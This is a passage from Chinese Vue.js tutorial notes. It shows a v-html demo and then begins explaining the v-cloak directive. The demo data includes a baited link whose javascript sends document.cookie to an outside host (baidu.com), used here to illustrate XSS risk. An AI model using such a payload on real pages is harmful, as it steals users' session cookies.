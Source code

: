 ```java

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```



### 3.案例



<img src="images/image-20211221113912313.png" alt="image-20211221113912313" style="zoom:80%;" />



# 五、VUE基础(三)





## 5.1：v-cloak



### 1.简介



这个指令保持在元素上直到关联实例结束编译。和 CSS 规则如 `[v-cloak] { display: none }` 一起用时，这个指令可以隐藏未编译的 Mustache 标签直到实例准备完毕。

1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
      2.使用css配合v-cloak**可以解决网速慢时页面展示出{{xxx}}的问题。**



### 2.代码

